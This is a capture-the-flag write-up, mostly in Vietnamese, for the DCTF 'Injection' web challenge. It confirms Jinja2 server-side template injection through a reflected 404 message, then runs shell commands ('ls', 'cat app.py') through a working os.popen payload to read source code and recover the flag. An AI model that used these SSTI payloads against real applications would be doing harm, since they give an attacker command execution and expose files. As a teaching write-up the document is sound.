


# Injection

## Description

Our local pharmacy exposed admin login to the public, can you exploit it? http://dctf1-chall-injection.westeurope.azurecontainer.io:8080/

## Solution



Đề cho một form login thông thường và tiêu đề là *injection*, nên mình đã hồn nhiên fuzz form bằng đủ mọi chiêu trò SQLinject , tuy nhiên vô vọng điều này đã khiến mình mất cả buổi chiều . 
Để ý mỗi khi submit ta sẽ được đưa đến một trang login, tuy nhiên nó lại ko tồn tại.

> Oops! Page login doesn't exist :(

Cơ mà cũng từ đây mà mình nhận ra magic trong chall này . Đầu tiên hãy chú ý vào url nó có dạng sau http://domain:8000/login , tôi thử thay đổi url thành http://domain:8000/admin thì nhận được một thông báo *Oops! Page admin doesn't exist :(*.

Như thế có thể khẳng định rằng web sẽ lấy giá trị trên url để truyền vào thông điệp hiển thị trên trang . Từ đây bớt chợt tôi nghĩ đến một lỗ hổng đó là SSTI (https://viblo.asia/p/server-side-template-injection-YWOZrxvy5Q0).

Bước tiếp theo là xác định template engine nào đang được sử dụng. Vì vậy tôi đã thử các payload dưới đây :

```{{7*7}} : Oops! Page 49 doesn't exist :(*```
``` {{7*'7'}} : Oops! Page 7777777 doesn't exist :(*```

=> Template là Jinja2 

Sau khi đã xác định được template , ta sẽ injection dựa theo template đó. Đây là các payload khả dụng : (https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection). Mất một hồi mày mò thì tôi đã tìm ra một payload để có thể RCE .

> Payload : {{config.__class__.__init__.__globals__['os'].popen('ls').read()}}

B1: List tất cả các thư mục trên web :
```Payload : {{config.__class__.__init__.__globals__['os'].popen('ls *').read()}}```
Result : Oops! Page **app.py lib: security.py static: index.png templates: error_page.py index_page.py** doesn't exist :( 

B2: Read các file :

```{{config.__class__.__init__.__globals__['os'].popen('cat app.py').read()}}```



```{{config.__class__.__init__.__globals__['os'].popen('cat lib/security.py').read()}}```

```
import base64 

def validate_login(username, password): 
	if username != 'admin': 
		return False 
	valid_password = 'QfsFjdz81cx8Fd1Bnbx8lczMXdfxGb0snZ0NGZ' 
	return base64.b64encode(password.encode('ascii')).decode('ascii')[::-1].lstrip('=') == valid_password
```
Ta thấy đoạn code trong file security.py dùng để check login , để pass thì bạn phải login với user=admin và passwd nhập vào sẽ được encode bs64 ,đảo ngược , cắt dấu bằng và so sánh với valid_password.

Đến đây tôi nghĩ việc cần làm là đảo ngược lại giá trị valid_password và decode base64.

## Flag

dctf{4ll_us3r_1nput_1s_3v1l}


